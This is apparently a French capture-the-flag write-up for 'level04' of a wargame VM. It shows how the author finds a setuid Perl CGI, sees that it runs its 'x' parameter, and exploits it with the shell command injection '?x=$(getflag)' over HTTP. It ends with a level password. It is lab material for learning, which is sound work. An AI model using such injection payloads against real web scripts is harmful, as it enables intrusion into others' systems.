LEVEL 04

------------------------------------------------------------------------------------------------------------------------

    find . -perm /u=s,g=s
    -r-xr-x---+ 1 flag04 level04 152 Dec 21 21:27 level04.pl*

* Solution

    cat level04.pl
    C'est un CGI Perl
    On l'avait remarqué aussi lors de l'analyse globale au tout début, dans /var/html
    CGI = HTTP = Apache de la VM
    On avait aussi nmap et trouvé un serveur apache port 4747
    On avait aussi vu ça dans au début dans : cat /var/log/apache2/suexec.log
    Avant ça, notons que le CGI Perl execute ce qu'on lui donne en paramètres du nom de 'x'
    perl level04.pl x=$(echo $PATH)
    perl level04.pl x=$(getflag | rev) -> ne fonctionne pas

    D'ailleurs la conf de la location : cat /etc/apache2/sites-available/level05.conf

    Rappel PERL CGI : https://docstore.mik.ua/orelly/perl/learn32/ch18_04.htm
    Dans un navigateur : 
    http://192.168.99.142:4747/level04.pl?x=$(getflag)
    Ça fonctionne à priori car les droits de l'user www-data permet le call getflag, alors qu'en shell, ça n'était pas le cas

    su level05 ne2searoevaevoem4ov4ar8ap


------------------------------------------------------------------------------------------------------------------------